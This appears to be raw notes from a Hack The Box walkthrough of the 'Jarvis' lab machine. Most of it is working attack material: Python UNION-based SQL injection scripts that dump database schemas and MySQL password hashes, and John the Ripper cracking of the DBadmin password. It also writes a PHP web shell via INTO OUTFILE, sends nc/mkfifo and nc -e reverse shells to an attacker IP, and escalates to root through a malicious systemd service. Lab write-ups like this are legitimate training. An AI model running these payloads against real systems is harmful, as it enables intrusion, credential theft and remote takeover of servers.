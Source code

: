 PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


![](2021-02-11-12-18-50.png)


supersecurehotel.htb

sudo bash -c 'echo "10.10.10.143 supersecurehotel.htb" >> /etc/hosts'


full scan:
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

![](2021-02-11-12-20-50.png)

main page still loads after that


![](2021-02-11-12-25-12.png)
 Login without a password is forbidden by configuration (see AllowNoPassword)


POST creates HTTP/1.1 412 Precondition Failed

![](2021-02-11-13-53-17.png)


<a href="#">supersecurehotel@logger.htb</a>


cewl -w passwords.txt -d 10 -m 1 http://supersecurehotel.htb


still displays family room, id=1
GET /room.php?cod=0+OR+1%3d1 HTTP/1.1

```py
import requests
import urllib
import uuid

url = "http://10.10.10.143/room.php?cod=-123+INJECT"
query_selector = ""

uid_list = dict(map(lambda i: (i, uuid.uuid4().hex), range(0,20)))
num_list = list(map(lambda i: str(i), range(1,20)))

for i in range(0,20):
    param_str = "'{0}'".format("','".join(list(uid_list.values())[:i]))
    sql = f"UNION ALL SELECT {param_str}"
    url_encoded = urllib.parse.quote(sql)
    # print(url_encoded)
    req_url = url.replace("INJECT", url_encoded)
    # print(sql)
    # print(i)
    response = requests.get(req_url)
    text = response.text
    # print(text)
    has_printed_url = False
    for (position, uid) in uid_list.items():
        if uid in text:
            if not has_printed_url:
                has_printed_url = True
                print(req_url)
            print(f"Found uid {uid} on position {position} num params: {i}")
```



http://10.10.10.143/room.php?cod=-12%20union%20all%20select%201,2,3,4,5,6,7
![](2021-02-11-15-08-24.png)

7 fields


GET /room.php?cod=-1000+UNION+ALL+SELECT+1,2,@@version,4,5,6,7%3b+--+- HTTP/1.1

<span class="price-room">10.1.37-MariaDB-0+deb9u1</span>



/room.php?cod=-1000 UNION ALL SELECT 1,2,(select schema_name from information_schema.schemata limit 1),4,5,6,7; -- -


sql = "UNION ALL SELECT 1,2,(select schema_name from information_schema.schemata limit 5,1),4,5,6,7; -- -"


databases =

hotel,
information_schema,
mysql,
performance_schema

```py
import requests
import urllib
import uuid
from bs4 import BeautifulSoup


def run_sql(sql):
    url = "http://10.10.10.143/room.php?cod=-123+INJECT"
    query_selector = ".price-room"

    url_encoded = urllib.parse.quote(sql)

    response = requests.get(url.replace("INJECT", url_encoded))
    text = response.text

    soup = BeautifulSoup(text, 'html.parser')

    print(soup.select_one(query_selector).text)

def run_sub(sql):
    base_sql = "UNION ALL SELECT 1,2,(SUBQUERY),4,5,6,7; -- -"
    run_sql(base_sql.replace("SUBQUERY", sql))

run_sub("select schema_name from information_schema.schemata limit 0,1")
run_sub("select schema_name from information_schema.schemata limit 1,1")
run_sub("select schema_name from information_schema.schemata limit 2,1")
run_sub("select schema_name from information_schema.schemata limit 3,1")
run_sub("select schema_name from information_schema.schemata limit 4,1")

# return all items
run_sub("select group_concat(schema_name) from information_schema.schemata limit 1")

print("hotel database table names tablename:col")
run_sub("select group_concat(table_name,':', column_name, '\n') from information_schema.columns where table_schema='hotel' limit 1")

print("all data from hotel.room")
run_sub("select group_concat(room.cod, room.name, room.price, room.descrip, room.star, room.image, room.mini, '\n') from hotel.room limit 1")

print("mysql users")
run_sub("SELECT group_concat(host,'|',user, '|', password) FROM mysql.user LIMIT 1")

```






kali@kali:~/htb/boxes/jarvis/10.10.10.143$ echo "DBadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0" >> dbadmin.creds
kali@kali:~/htb/boxes/jarvis/10.10.10.143$ john --format=mysql-sha1 dbadmin.creds -w ~/htb/rockyou.txt 
Warning: invalid UTF-8 seen reading /home/kali/htb/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
imissyou         (DBadmin)
1g 0:00:00:00 DONE (2021-02-11 16:24) 100.0g/s 246400p/s 246400c/s 246400C/s twilight..ashlee
Use the "--show" option to display all of the cracked passwords reliably
Session completed

![](2021-02-11-16-25-45.png)


SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/rev.php"

![](2021-02-11-16-27-13.png)

![](2021-02-11-16-27-35.png)


GET /rev.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.5+4444+>/tmp/f HTTP/1.1

/bin/sh: 0: can't access tty; job control turned off
$ $ $ uid=33(www-data) gid=33(www-data) groups=33(www-data)



www-data@jarvis:/var/www/html$ cat connection.php      
<?php
$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
?>



## privesc

Matching Defaults entries for www-data on jarvis:                                                                                                                                                                                                                                                                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                                                                                             
User www-data may run the following commands on jarvis:                                                                                                                                                                                                                                                                      
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py


SUID -rwsr-x--- 1 root pepper     171K Feb 17  2019 /bin/systemctl

nc 10.10.14.5 1234 < /var/www/Admin-Utilities/simpler.py


-rwxr--r-- 1 pepper   pepper   4.5K Mar  4  2019 /var/www/Admin-Utilities/simpler.py


echo "nc -e /bin/bash 10.10.14.5 4445" > rev.sh

![](2021-02-11-16-53-57.png)

![](2021-02-11-16-54-04.png)


https://gtfobins.github.io/gtfobins/systemctl/

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc 10.10.14.5 1234 -e /bin/bash"
[Install]
WantedBy=multi-user.target' > evil.service


/bin/systemctl link $(pwd)/evil.service
/bin/systemctl enable --now $(pwd)/evil.service

![](2021-02-11-17-03-54.png)

